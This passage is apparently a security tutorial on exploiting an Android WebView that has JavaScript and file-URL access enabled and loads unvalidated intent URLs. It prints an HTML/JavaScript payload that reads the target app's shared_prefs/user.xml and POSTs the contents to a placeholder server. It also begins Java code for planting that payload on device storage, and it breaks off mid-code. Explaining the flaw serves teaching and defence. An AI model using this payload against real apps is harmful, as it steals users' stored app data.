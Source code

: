 
  #### Demonstraion

    In this scenario, we'll examine how an attacker can exploit a WebView when it loads an attacker-controlled URL, with setAllowFileAccessFromFileURLs(true) enabled, and there's no validation on the data passed to the WebView.
    
    In the following vulnerable code, two flags are enabled: `setJavaScriptEnabled` and `setAllowFileAccessFromFileURLs`. This configuration permits the execution of JavaScript files from file URLs. Additionally, the URL passed through the intent is not validated and is directly loaded into the WebView, leaving it under the attacker’s control.
   ![webview  setAllowFileAccessFromFileURLs](/img/webview-file1.png)

   ![webview  setAllowFileAccessFromFileURLs](/img/webview-file2.png)


   - An attacker would need to save a file with the exfiltration code on the device and then send the file URI to the target app's `WebView` through an intent.

      **code**
        ```js
        <!DOCTYPE html>
        <html>
        <body>
        <h2>File Data Exfilirating</h2>

        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    console.log(xhr.responseText);
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open("POST","server url", true);
                    xhr2.send(xhr.responseText);
                }
            }
            xhr.open('GET', 'file:///data/data/com.safenodelabs/shared_prefs/user.xml', true);
            xhr.send(null);
        </script>

        </body>
        </html>
        ```
    - An attacker can store this code into device storage somewhere and direcly pass the uri
     ```js
    public class FileHelper {

    public static void saveToExternalFile(Context context, String fileName, String fileContent) {
        FileOutputStream fos = null;
        try {
            // Get the root of the external storage directory
            File externalStorageDir = Environment.getExternalStorageDirectory();
            Log.d("FileHelper", "External Storage Directory: " + externalStorageDir.getAbsolutePath());
